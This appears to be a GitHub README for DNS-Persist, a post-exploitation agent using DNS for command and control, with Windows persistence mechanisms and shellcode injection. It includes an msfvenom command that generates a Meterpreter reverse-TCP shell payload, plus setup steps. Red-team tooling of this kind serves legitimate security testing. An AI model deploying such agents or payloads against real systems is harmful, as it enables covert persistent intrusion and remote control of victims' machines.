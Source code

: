# DNS-Persist
DNS-Persist is a post-exploitation agent which uses DNS for command and control. The server-side code is in Python and the agent is coded in C++. This is the first version, more features and improvements will be made in the future.

## Getting Started
### Author
0x09AL - https://twitter.com/0x09al
### Disclaimer
DO NOT USE THIS SOFTWARE FOR ILLEGALL PURPOSES.

THE AUTHOR DOES NOT KEEP ANY RESPONSIBILITY FOR ANY MISUSE OF THE CODE PROVIDED HERE.

## Did I reinvent the wheel ?
There is a lot of great work on DNS C2 but I created this software to be more focused on the persistence part. I'm no expert in C++ and this is my first "real program" in C++ (so expect some cringe worthy code). 

Suggestions about features and improvements are open.

## Architecture

There are two main parts:
1. DNS server
2. Agent

![alt text](https://raw.githubusercontent.com/0x09AL/DNS-Persist/master/images/Picture-5.png "Architecture")

## Features
### Persistence mechanisms
This version has only 3 persistence mechanisms. More will be added later.
1. LogonScript persistence.
2. RunKey persistence.
3. Excel Addin persistence.

### Shellcode Injection
This version supports injection of 32-bit shellcode. The shellcode gets executed in a new thread in the same process, so crashing shellcode or invalid one will also crash the agent. Avoid NULL bytes on the shellcode.

#### Shellcode generation example
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=ip LPORT=port EXITFUNC=thread -b "\x00" -f hex -o /tmp/shellcode.hex
```

## TODO LIST
1. Add encryption.  **This version does not have any encryption so take your own risks when using it.**
2. Add more persistence mechanisms.
3. Agent in different programming languages.

## Installation & Usage
### Server side
```
pip install dnslib
git clone https://github.com/0x09AL/DNS-Persist
python server.py
```
By default a DNS server on port 53 will be started. You can change that on the server.py file.

### Agent
I used Visual Studio 2010 to code the agent so importing and compiling it should be fairly easy.

Keep in mind to change the DOMAIN_NAME variable in Declarations.h, to match your domain name.

The domain nameserver should point to the DNS-Persist IP address.


```
#define DOMAIN_NAME "example.com"
```

## Screenshots

1. Picture-1

![alt text](https://raw.githubusercontent.com/0x09AL/DNS-Persist/master/images/Picture-1.png "Picture-1")

2. Picture-2

![alt text](https://raw.githubusercontent.com/0x09AL/DNS-Persist/master/images/Picture-2.png "Picture-2")

3. Picture-3

![alt text](https://raw.githubusercontent.com/0x09AL/DNS-Persist/master/images/Picture-3.png "Picture-3")

4. Picture-4

![alt text](https://raw.githubusercontent.com/0x09AL/DNS-Persist/master/images/Picture-4.png "Picture-4")




